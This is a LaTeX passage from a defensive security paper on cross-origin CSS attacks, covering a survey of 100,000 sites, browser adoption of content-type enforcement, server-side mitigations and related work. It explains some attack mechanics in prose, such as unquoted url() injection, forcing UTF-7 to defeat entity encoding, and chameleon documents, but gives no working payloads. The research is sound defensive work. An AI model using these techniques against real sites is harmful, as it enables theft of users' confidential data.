other well-formed non-CSS                   & T & T & T & T & S &  & \\
\texttt{*/*}, other ill-formed values       & T & T & T &   &   &  & \\
Header missing                               & T &   &   &   &   &  & \\
\texttt{application/x-unknown-content-type} & T &   &   &   &   &  & \\
\bottomrule
\multicolumn{8}{r}{\vrule height10pt width0pt\relax\itshape
  S = strict defense; T = tolerant defense; blank = no defense.}
\end{tabular}
\caption{The effect of missing or ill-formed
  Content-Type}\label{table:adoption}
\end{table*}

\paragraph{Results}
From these 100,000 web sites, our crawler logged a total of 260,069
CSS references, of which 206,051 were same-origin and 54,018
cross-origin.  We did not include data for sites that were unreachable
during our evaluation, due to unresponding servers or domain name
errors. Our results are shown in Table~\ref{table:results}.

Of these 260,069 requested style sheets, 2,363 returned an HTTP error
(e.g.\ 400 Bad Request, 404 Not Found, or 500 Internal Server Error)
rather than a style sheet. These resources are unreachable, so they
already have no effect on the rendering of the page; our proposal does
not change this.

Excluding the responses with HTTP errors, 1,009 were labeled with an
incorrect \texttt{Content-Type} header (that is, anything but
\verb|Content-Type: text/css|).  We summarize the incorrect headers we
observed in Table~\ref{table:MIME}; \verb|text/html| is the most
common value, accounting for 71\% of errors.  Some of these
\verb|text/html| responses were HTML landing pages produced (with a
200~OK response code) because the desired style sheet no longer
existed; the content type is correct in this case, but the
server is still misconfigured, as it should have produced an HTTP
error.  Style sheets labeled with the generic types \verb|text/plain|
and \verb|application/octet-stream| make up a further 7\% of the
total, and a few other specific types appeared,
e.g.~\verb|application/x-javascript|.

The second most common error, accounting for 18\% of the total, is to
provide no \texttt{Content-Type} header at all, or a header with no
value; these are listed together in table~\ref{table:MIME} as
“missing.”  Most browsers will process a style sheet with a missing
content type, even in standards mode.  See
Section~\ref{sec:missing} for further discussion of this wrinkle.

The crawler logged whether standards or quirks mode was in effect for
each HTML page that loaded a CSS resource.  Quirks mode is in effect
for a substantial minority of the 100,000 sites crawled, but of the
260,069 requests for CSS, only 31,681 came from pages in quirks mode.
In standards mode, style sheets are always discarded if they are
labeled with the wrong content type; we observed 572 such futile
requests in our sample.  From pages in quirks mode, there were 437
requests for sheets that were labeled with the wrong type; these
sheets are honored.

The crawler also recorded whether a style sheet was served from the
same origin as the requesting HTML document.  It is most common to
serve style sheets from the same origin as the HTML, but we did
observe 54,018 cross-origin requests, 6,075 of which were for pages in
quirks mode.  Only 74 of those cross-origin requests were labeled with
the wrong content type.

Finally, the crawler checked whether each sheet began with a
well-formed CSS construct.  1,059 sheets (0.41\% of the sample) were
malformed.  (It is interesting to note that a common error among these
malformed sheets is to start the file with an HTML \verb|<style>|
tag.)  Only 60 sheets were both malformed and labeled with an
incorrect content type, and none of these were served cross-origin.

\paragraph{Discussion}
Within the Alexa top 100,000 web sites, we observed a total of 1,009
CSS resources labeled with an incorrect content type (excluding responses
with HTTP errors).  Of these, 572 are associated with sites being
rendered in standards mode, and are therefore already being ignored.
Of the remaining 437 style sheets, 74 are loaded cross-origin; these
are the sheets that would be rejected by the strict defense, breaking
62 (0.06\%) of the Alexa sites.  This is enough to make browser
vendors reluctant to deploy strict enforcement.  The tolerant mode,
which accepts cross-origin, mislabeled sheets unless they are also
malformed, would not break any of the top 100,000 sites.

Many sites provide additional content to registered users. Due
to practical limitations of our automated scanning, our results
are for unauthenticated access. It is possible that more sites
would be broken (by either form of the defense) if viewed by an
authenticated user.

\subsection{Adoption}
Our proposal has been adopted by several major browsers. We
implemented tolerant enforcement for WebKit, and both tolerant and
strict enforcement for Mozilla's Gecko engine. Tolerant enforcement
based on our changes has been deployed in Google Chrome~4.0.249.78,
Safari~4.0.5, and both Firefox~3.5.11 and~3.6.7. Firefox~4 instead
offers strict enforcement, which Mozilla considers preferable in the
long term. Opera independently implemented tolerant enforcement for
version~10.10 of their browser.

\subsection{Missing or Ill-Formed Content Types}\label{sec:missing}
To be fully reliable, our proposed defenses should be applied whenever
a style sheet lacks the \verb|Content-Type: text/css| label, including
when the \texttt{Content-Type} header is missing or has an ill-formed
value.  Recall from Table~\ref{table:MIME} that we saw 178 CSS
resources that lacked a Content-Type header in our survey.  However,
as shown in Table~\ref{table:adoption}, most browsers---with the
notable exception of Opera---do accept cross-origin style sheets if
they lack a \texttt{Content-Type} header, even in standards mode.
Firefox ignores \texttt{Content-Type} headers that it cannot parse
(e.g.~\verb|Content-Type: */*|) and will therefore also accept a
cross-origin style sheet with an ill-formed \texttt{Content-Type}.
Finally, Webkit and Firefox both treat the special type
\texttt{application/x-unknown-content-type} the same as the absence of
a header.

These gaps in the defense could open up a target server to attack, if
it fails to set a \texttt{Content-Type} header on its HTML
documents. We have not yet observed any web servers in the wild that
are affected by this vulnerability, but browsers may wish to follow
Opera's lead and block such style sheets when loaded across
origins. In any case, we recommend that servers always provide a
correct Content-Type header.

\subsection{Other Client-Side Approaches}
Other defensive approaches could be deployed in browsers without
modifying web servers, but we argue that all of them could easily be
circumvented, or else would significantly reduce web compatibility.

\paragraph{Block Cookies}
If HTTP cookies are disabled in the browser, web attackers cannot
steal content from cookie-au\-then\-ti\-cated sites.  However, completely
disabling cookies renders many sites unusable.  Some browsers have the
option to block only “third-party” cookies, which prevents cookies
from being \emph{set} by a cross-origin load.  Unfortunately, this
mode typically does not block cookies from being \emph{sent} with a
cross-origin load, because some sites require session cookies for
cross-origin resources~\cite{jackson06thirdpartycookies}.  Blocking
only cookie sets does not block cross-origin CSS attacks.

\paragraph{Block JavaScript Style APIs}
Many browsers already prevent JavaScript from reading parsed style
rules when those rules were loaded cross-origin; this could be done
more thoroughly, and they could also prevent access to computed style
when the chosen value came from a cross-origin sheet.  These changes
would stop some attacks, but an attacker could still use the
no-JavaScript technique of triggering an HTTP request directly from
the style sheet.

\subsection{Server-Side Mitigation}
In this section, we consider approaches that can be adopted
by web servers without requiring changes to current browsers.
Web applications may wish to adopt such mitigations to
protect users of browsers that have not yet adopted our
proposed defenses, such as Internet Explorer.

\paragraph{Newlines}
The CSS specification does not allow strings and URLs to contain
newlines.  Most browsers honor this rule, so sites can defend against
cross-origin CSS attacks by inserting newlines before and after
potential injection points.  However, this does not protect users of
Internet Explorer, which allows unescaped newlines in string contants.

\paragraph{HTML Encoding}
CSS-based attacks can be prevented by replacing the punctuation
within the injected strings with HTML entities. Existing filters
often already do this for quotation marks, but quotation marks
are not required for the attack; the attacker could use an
unquoted \texttt{url()} instead. We recommend escaping curly
braces in user-submitted content as well, using \verb|&#123;|
and \verb|&#125;|. This will block all known forms of the
attack, as long as the attacker cannot force UTF-7 encoding.
Unfortunately, most utility routines provided by popular
scripting languages will not entity-encode curly braces.

As we mentioned in Section~\ref{sec:utf7}, it is also important
to ensure that the \texttt{Content-Type} header includes a
character set declaration. Otherwise, the attacker may be able
to defeat HTML entity encoding of quotes and curly braces by
forcing the target page to be interpreted as UTF-7. Declaring
the character set in a \texttt{meta} tag inside the document is
not good enough, because the CSS parser will not recognize that
tag.

%If it is impossible to get a character set declaration into the HTTP
%headers for some reason, entity-encoding plus signs as \verb|&#43;|
%would also prevent the attacker from using UTF-7.

\paragraph{Avoid Ambient Authentication}
Cross-site attacks rely on the browser transmitting “ambient”
authentication information, such as HTTP credentials or session
cookies, with any request to the target site.  A site that makes no
use of these is less vulnerable.  One possible alternative is the
web-key authentication scheme~\cite{webkey}, which embeds credentials
in site URLs instead of cookies.  The attacker is foiled, as they
cannot guess these URLs.  However, if a URL with a credential becomes
visible to the victim user (e.g. via the location bar), they might be
tricked into revealing it; sites must assess whether this is an
acceptable trade-off.

\section{Related Work} \label{sec:relatedwork}
In this section, we review current client-side defenses against
similar attacks: content-sniffing XSS and JavaScript hijacking.  We
also look at a few recent research proposals for secure web browsers
in the light of the cross-origin CSS attack.

\subsection{Content-Sniffing XSS}
Browsers use content-sniffing algorithms to detect HTML documents that
were not properly labeled by the server. Web sites that allow their users to upload
files also use content-sniffing, to ensure that only files in benign
formats (e.g.\ images) are accepted.  When the site's sniffing
algorithm is not the same as the browser's, an attacker may be able to
construct a “chameleon” document that a website believes is benign,
but that a browser will recognize as
HTML~\cite{securecontentsniffing}.  For example, a file beginning with
\verb|GIF<HTML| will be treated as an image by some versions of
MediaWiki, but as HTML by some versions of Internet Explorer.

To deal with this attack, Barth et al~\cite{securecontentsniffing} proposed a
single, trusted sniffing algorithm that can be adopted universally.
The signatures it looks for are \emph{prefix-disjoint}, which excludes
the possibility of chameleon documents.  It also pays attention to the
\texttt{Content-Type} header and will not \emph{escalate} a document's
capabilities---for instance, it will never treat a \verb|text/plain|
document as HTML, because HTML can contain scripts and plain text
can't.  Microsoft proposed an alternative solution, a new HTTP header
\verb|X-Content-Type-Options| to allow sites to opt out of content
sniffing~\cite{nosniff}.

Both of these proposals aim to ensure that if the server believes a
particular document not to be HTML, the browser will not process it as
HTML.  They do nothing against the cross-origin CSS attack, which
tricks the browser into processing an HTML document as CSS.

\subsection{JavaScript Hijacking} \label{sec:json}
Subsets of JavaScript syntax are commonly used as a data transport
format; the most popular of these is JavaScript Object Notation
(JSON)~\cite{json}.  Since the browser security model allows importing
scripts from a different domain, an attacker can steal data in this
format by mentioning its URL in a \texttt{script}
tag~\cite{jshijacking}; as with a cross-domain CSS load, this sends
HTTP credentials for the target site.  Servers can block this attack
by prefixing their JSON responses with a JavaScript statement that
causes a syntax error or infinite loop.  The legitimate client
application for which the response is intended, strips this prefix
before parsing the JSON.  The malicious page's \texttt{script} tag
evaluates the entire response, and will not get past the prefix.
Servers may also be able to mitigate the attack by using JSON
responses only for HTTP POST requests; the \texttt{script} tag always
generates GET requests.  However, this may require significant
redesign of the web application.  Finally, avoiding ambient
authentication as in \cite{webkey} is also an effective defense for
this attack.

\subsection{OP Browser}
The OP web browser~\cite{op-browser} sandboxes browser components, to
isolate and contain failures.  OP's architecture does not provide any
automatic protection against cross-origin CSS attacks, which depend
only on the high-level behaviors described in
Section~\ref{sec:behavior}.  However, OP does maintain a detailed
security audit log that could be used by forensics experts to identify
the site where the attack originated.

\subsection{Gazelle Browser}
The Gazelle browser~\cite{gazelle} includes strict architectural
control over resource protection and sharing across websites.  Sites
are treated as security principals, and all cross-principal
communication is explicitly mediated by the browser kernel to prevent
cross-origin attacks.  Cross-origin resources are only retrieved if
the content has the proper content type in the HTTP response; thus
Gazelle implements what we described in Section~\ref{sec:strict} as
“strict enforcement” of cross-origin CSS labeling, as a natural
consequence of their security architecture.  Users of Gazelle are
protected against cross-origin CSS attacks, at some cost in site
incompatibility (62 out of 100,000 sites in our survey).

\subsection{SOMA}
The Same Origin Mutual Approval (SOMA) proposal~\cite{soma} restricts
communication between origins by requiring mutual approval between a
web page's server and the servers of its cross-origin resources.  Each
server provides two well-known URLs declaring its cross-origin policy.
One lists all sites \emph{to} which its operators expect to make
cross-origin requests, and the other dynamically reveals whether a
cross-origin request \emph{from} another site is acceptable.  Browsers
are modified to check both policy URLs before making any cross-origin
request.  This design prevents leaking confidential data to unapproved
sites, and so mitigates the cross-origin CSS attack. However, the
negotiation scheme costs additional round-trip requests and requires
modifications to all participating web sites and browsers.

\subsection{CORS}
The Cross-Origin Resource Sharing (CORS) proposal~\cite{cors} is
similar to SOMA, but it uses HTTP headers rather than well-known URLs,
and is strictly for \emph{expanding} the set of sites allowed to
retrieve a resource that would normally be same-origin only.
Initially designed to allow sites to cooperate with
\texttt{XMLHttpRequest}, browser vendors are also considering it for
video, downloadable fonts, and other novel resource types.  These can
be restricted to same-origin by default, and then opened up to
cross-origin requests only when this does not reveal confidential
information.  Thus, CORS reduces the risk of future cross-origin
attacks using novel resource types.  Unfortunately, applying it to
“traditional” resource types such as CSS or JavaScript would break too
many websites to be feasible.
%Since it uses HTTP headers, it does not
%impose additional round-trip costs, but it may be harder to deploy
%than an approach relying on well-known URLs.

\section{Conclusions} \label{sec:conclusion}
In this paper, we presented cross-origin CSS attacks, known for some
time but underestimated as a threat.  We developed a reliable defense
for this attack, in two variants: one strict, based solely on content
types, and one more tolerant, using a content-sniffing rule to improve
site compatibility.  We surveyed 100,000 web sites to assess the site
compatibility of our proposals.  Common server misconfigurations
trigger false positives in the strict variant, and would break
62~(0.06\%) of the 100,000 sites; the tolerant variant does not break
any sites.  Our defense has been adopted in major browsers, including
Firefox, Google Chrome, Safari and Opera.  We also made
recommendations for server-side mitigation of the attack: configure
the \texttt{Content-Type} header correctly, and consider
entity-encoding curly braces in user-submitted content.

\section*{Acknowledgements}

We thank Dave Hyatt, Sam Weinig, Maciej Stachowiak, and Adam Barth of
the WebKit project, and David Baron and Boris Zbarsky of Mozilla, for
reviewing our implementations of cross-origin CSS defenses.

\bibliographystyle{abbrv}
\bibliography{css}

\end{document}
